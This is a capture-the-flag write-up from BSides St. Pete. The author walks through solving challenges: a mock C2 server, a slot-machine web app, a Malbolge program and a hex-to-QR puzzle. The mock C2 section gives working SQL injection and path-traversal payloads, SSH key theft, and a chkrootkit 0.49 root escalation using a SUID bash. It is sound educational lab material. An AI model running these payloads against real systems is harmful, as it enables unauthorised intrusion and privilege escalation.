



- BSides ST. Pete was a blast, lot's of different companies and i'm sure tons of great talks, but i was busy competing!
- the CTF was very interesting as it involved many different topics.  

## placement

- we placed first in the ctf finishing with 3666 points!



## challenge writeups

- i'll mainly only talk about the challenges i solved and ones that i thought were fun.

### Pelican C2 - User

##### Challenge Description
```
We managed to get our hands on a malware sample being distributed by the Pelicans. We have reason to believe it points to one of their C2 servers. Can you analyze the sample and hack into the server?
```

- we start off the challenge with a zip file that has some "malware", i download this "malware", open up wireshark and run it :D
- from there i can see that it's beaconing out to an ip address with some credentials and recieves a command to run on my machine:

```bash
GET /api/pelican/callback?email=pwn2@bsidesstpete.com&password=c4a6b07beeb6f8fb3dee3a969f5ae HTTP/1.1
Host: 172.17.0.2:1337
Accept: */*

HTTP/1.1 200 OK
Server: gunicorn/20.0.4
Date: Mon, 18 Sep 2023 01:00:41 GMT
Connection: close
Content-Type: application/json
Content-Length: 53

{"callback":"touch pwned_by_pelican","success":true}
```

- i access the url and login.
- from there i can see a systemtools page that i seem to need a pin for. 
- quickly attempt a sql injection and get by:

```
csrf_token=IjZlZDdkOGRhZjYzNjUyMzA4NDA1YmIxODY1NzY2OWQ0NzM2ZmEyM2Ei.ZQehvQ.f2VNph0zRHK_hLQzDQ2k1hDszyc&digit0=1'or%201=1%20--%20-&digit1=1&digit2=1&digit3=1&digit4=1&digit5=1&submit=Submit
```

- i do a simple or 1=1 and get past their pin code. 
- at this point i see 3 inputs for ip addresses that allow me to enter an ip to be passed to a ping, netcat, and whois toolset. 
- i attempt command injection but i quickly realize there is no hope in it.
- i also find that there is a pelican client downloads section that allows me to download the malware. 
- i click download and capture the request:

```
GET /pelican/downloads/clients?build=Pelican.zip HTTP/1.1
Host: 172.17.0.2:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://172.17.0.2:1337/pelican/tools
Cookie: session=.eJwtT0tqQzEQu4vXWYw9nrGdyzzG86ElkJT3oYvSu9eF7CQhCeknbbH78ZHu5375LW2flu4pA42pzDoN1YADZAhCkGt4br30cAO32SoWFoVhBTPxgPkPTGOYdMc5nCQ7oEw38uKIbdlJep7NtbZCGE0BO9NAHKUCWiZNa8h1-P5es6gee2zn6-HPJbBbs24SjEwFoVegOfMqaczDakMOKSgr9_W9yXW-7_3-AVUwRNI.ZQeiLg.uDylzp-Gba_YZwfcctm7allLyrY
Upgrade-Insecure-Requests: 1
```

- this yeilds something that looks like an LFI from the looks of it, i send it to repeater and change "Pelican.zip" to "../../../etc/passwd":

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
<SNIP>
clamav:x:105:107::/var/lib/clamav:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
pelican_internal:x:1000:1000::/home/pelican_internal:/bin/bash
```

- now i can see that there is ap elican_internal user, i access their home directory and grab their ssh key. then i login and grab the flag :3

```bash
pelican_internal@b2054d61c8b4:~$ ls
user_flag.txt
pelican_internal@b2054d61c8b4:~$ cat user_flag.txt 
PELICAN{h4lf-w4y-7herec}
```

### Pelican C2 - Root

##### Challenge Description
```
You're almost there, finish the job and root the server.
```

- now for root:
- do some initial enum and find a script being ran in /opt/run_scan.sh

```bash
pelican_internal@b2054d61c8b4:~$ cat /opt/run_scan.sh 
#!/bin/bash

while true; do
    date > /var/log/recent.log
    /usr/bin/clamscan -r /home/pelican_internal >> /var/log/recent.log 2>&1
    /usr/sbin/chkrootkit >> /var/log/recent.log 2>&1
    sleep 15 
done
```

- check the commands that are running and see that chkrootkit is being ran, i check its version

```bash
pelican_internal@b2054d61c8b4:~$ chkrootkit -V
chkrootkit version 0.49
```

- this verison is vulnerable and all i have to do is add a file in /tmp called update with a payload, wait sometime and ill get root:

```
pelican_internal@b2054d61c8b4:/tmp$ touch update
pelican_internal@b2054d61c8b4:/tmp$ echo "chmod +s /bin/bash" > update
pelican_internal@b2054d61c8b4:/tmp$ chmod +x update
pelican_internal@b2054d61c8b4:/tmp$ bash -p
bash-5.0# cd /root
bash-5.0# cat root_flag.txt 
PELICAN{7h3-7ru3-807m4573r}
```

```
PELICAN{7h3-7ru3-807m4573r}
```

### Vegas

##### Challenge Description
```
The Pelicans are hosting an online gambling platform, can you cash out?
```

- this challenge involved a slot machine and the win condition is to get 5 white flags



- first i role the flags until i hit a single (or more) white flags.
- from there i capture the request and check for patterns



- capture the request

```sh
GET /check-win?code=53953c54254053b HTTP/1.1
Host: boxes.pelicansctf.com:32774
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://boxes.pelicansctf.com:32774/spin!
DNT: 1
Connection: close
```

- here i see that there is 15 digits, can safely assume after a few captures that each group of 3 identifies the code for each flag.
- so at this point i grab the first 3 characters which are 539 and i send that x 5 aka 539539539539539
- that redirects me to a flag :)

```
PELICAN{n07_54fe_c0de2}
```

### Inferno

##### Challenge Description:

```
We found a backdoor in some of the Pelicans' infrastructure. The system we gained access to is named "HELL". There is only a single file on it named "inferno.mb", which can only be executed by the root user, "dante". Our analysts have been trying to make sense of the program but have not been able to execute it yet.
```

- this challenged invovled a file called "inferno.mb" with the following content:

```
'&%$#"!~}|{zyxwvut,+0/.-,+*)(!Efedcba`_^]\[ZYXWVUTSoQglkjihg`e^$EDCBA@?UZSXQ
VUTSLp3210/.-,+*)('&%$#"!=6;:987654-Qrqponmlk)i'~}|#"!xw=^]sxwputsrqj0QPONML
Kaf_^]ba`_X|\[ZSXWPt76543210/.-,+*)('&BA@?>~<;:981U/4-,Pqponmlkjihgfedcba`_^
]\[ZYXWVUTSRQPONMLKJIHGFEDCBA@?>=<;:9876LQPONMLKJIBG@d'&%$#"!~}|{zyxwvutsrqp
onmlk)('&%$#"yxw=^]yxZputsrqj0nPfed*KJIHGFEDCBA@?>=<;:9876543INGLKJIHG@?cCB$
:^>=<;:981Uv.32+*No-,+*#Ghgfedcba`_^]\[ZYXWVUqponPfkjibg`&GFEDCBA@?>=<;:9876
543210/.-,+*)('&%$#"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\rwputsrqpingf,MLKJIH
dc\aZ_^]\[Tx;QPt76543210/.-,+*)('&B$:?8=6;:981UTutsrqponmlkjihgfedcba`_^]\[Z
YXWVUTSRQPONMLKJIHGFEDCBA@?>=<;:9876543210/.-,+*)('&%$#"!~}|{zyxwvutsrqponml
kjihgfedcba`_^]\[ZYXWVUTSRQPONMLKJIHGFEDCBA@?>=<;:9876543210/.-,+*)('&%$#"!~
}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTponPledihg`e^]#n
```

- based off of the description i can guess this is an esoteric language, from there i can google around and find the Malbolge language and an [interpreter](https://malbolge.doleczek.pl/)
- pasting it in there gets me this flag:

```
PELICAN{E5oT3r1cK_4s_H3LL}
```

### Que Are

##### Challenge Description
```
A member of our incident response team was able to extract three files tied to a Pelican phishing campaign, however we are not sure what to make of them.
```

- this challenge was not too hard, just required some outside thinking. 
- it gave us 3 files, and they were all filled with hex
- upon decrypting them one by one i noticed that the second one had a PNG header and the third had an IEND. 
- so i took the gander and reordered them starting with the second then the first then last.

```bash
$ cat 01.txt| xxd -r -p
PNG
```

- after appending 00.txt to 01.txt then 02.txt to 01.txt i ensure there are no new lines and then i run the following command

```bash
$ cat file.txt| xxd -r -p > Qr.png
```

- this generate a QR code that you can scan and get the flag.

```bash
$ zbarimg Qr.png 
QR-Code:PELICAN{M0r3_tH4n_jU5t_SoM3_h3x}
scanned 1 barcode symbols from 1 images in 0.03 seconds
```

```
PELICAN{M0r3_tH4n_jU5t_SoM3_h3x}
```

## conclusion

- the challenges were fun. i didn't write all the challenges in here, just the ones i liked.

best, gerbsec